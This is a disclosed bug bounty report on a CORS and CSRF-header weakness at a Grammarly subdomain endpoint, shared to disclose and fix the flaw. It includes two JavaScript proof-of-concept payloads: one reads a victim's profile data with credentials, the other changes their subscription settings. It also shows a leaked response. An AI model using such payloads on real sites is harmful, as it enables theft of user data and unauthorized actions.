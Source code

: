 # Lack of CSRF header validation at https://g-mail.grammarly.com/profile

## Report Details
- **Report ID**: 629892
- **URL**: https://hackerone.com/reports/629892
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-06-26T08:34:39.923Z
- **Disclosed**: 2019-10-31T03:57:12.157Z

## Reporter
- **Username**: orlserg
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grammarly

## Vulnerability Information
Hello!

## Description
I found that setting up a CORS in some places will check the protocol, but it allows using http scheme. In addition, any subdomain is considered trusted. If the origin is *http://www.grammarly.com*, then the server will respond: *Access-Control-Allow-Origin: http://www.grammarly.com*. That can lead to leakage of user data and unauthorized actions on behalf of the user.
{F517015}

In fact, this means that an attacker can use the MITM attack (Wi-Fi, local networks, etc.) to substitute client requests, thus replacing the origin. 

####*Important note: I very carefully read the program policy and focus on the fact that MITM attack is not made on the existent grammarly sites.*

## How it works
{F517002}

If an attacker can perform a mitm attack on a user, he can replace the requested content of any unencrypted request and produce a 302 redirect of the user to http: //evil.grammarly.com. Since the request is not unencrypted, the attacker can also replace the response and implement javascript that performs a requests to vulnerable endpoints. Thus, the vulnerable enpoint will think that the request came from the origin of the trust it trusts and will execute the request.

Using a header to send a CSRF token protects against such attacks. But I found a place where verification of the transferred token is not performed.

This vulnerability was perfectly described by James Kettle on OWASP AppSec EU 2017. You can watch the description of the vulnerability on the link to his presentation. https://youtu.be/wgkj4ZgxI4c?t=1139

## Vulnerable enpoints

1) The malicious javascript will look like:

```javascript
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
   if (this.readyState == 4 && this.status == 200) {
       document.getElementById("response-node").innerHTML = this.responseText;
   }
};
xhttp.open("GET", "https://g-mail.grammarly.com/profile", true);
xhttp.withCredentials = true;
xhttp.send();
```
The response will contain the user's email address and subscription settings:
```
{"id":749327815,"email":"email@yandex.ru","preferenceFields":[{"name":"Weekly Progress Reports","description":"Get a weekly report with statistics and insights on how you are writing with Grammarly.","order":49,"value":true},{"name":"Product Updates","description":"Important info on new features and products. We may also ask for your feedback on occasion.","order":50,"value":true},{"name":"Grammarly Offers","description":"These emails may include special upgrade offers, limited-time events, or coupons. ","order":50,"value":true},{"name":"The Grammarly Blog","description":"A weekly newsletter that includes fun tips on all things writing.","order":50,"value":true},{"name":"Grammarly Business","description":"Updates and information on our products for multi-person teams.","order":55,"value":true}],"unsubscribe":false}
``` 

2) The malicious javascript will look like:

```javascript
var xhttp = new XMLHttpRequest();
var data = new FormData();
data.append("email", "████████");
data.append("unsubscribe", "false");
(...)
xhttp.open("POST", "https://g-mail.grammarly.com/profile", true);
xhttp.withCredentials = true;
xhttp.send(data);
```
The request will change the subscription settings. It looks like CSRF.

Now I'm trying to find more places to increase the impact.

## Impact

CORS misconfiguration lead to leakage of user data and unauthorized actions on behalf of the user.

## Attachments
- CORS.png
- burp.png
